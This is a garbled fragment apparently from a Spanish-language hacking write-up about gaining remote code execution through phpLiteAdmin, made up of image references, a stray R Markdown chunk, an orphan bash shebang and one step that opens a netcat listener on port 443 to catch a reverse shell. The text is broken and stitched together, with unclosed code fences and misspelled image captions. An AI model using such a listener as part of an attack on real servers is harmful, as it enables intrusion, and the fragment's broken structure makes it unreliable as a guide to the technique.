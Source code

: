     ```{r, echo = FALSE, fig.cap="phpliteadmin RCE", out.width="90%"}
    knitr::include_graphics("images/phpliteadmin-rce.png")

![hliteadmi-isert-commad](/assets/images/phpliteadmin-insert-command.png) 
1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

    #!/bin/bash
![hliteadmi-rce](/assets/images/phpliteadmin-rce.png) 
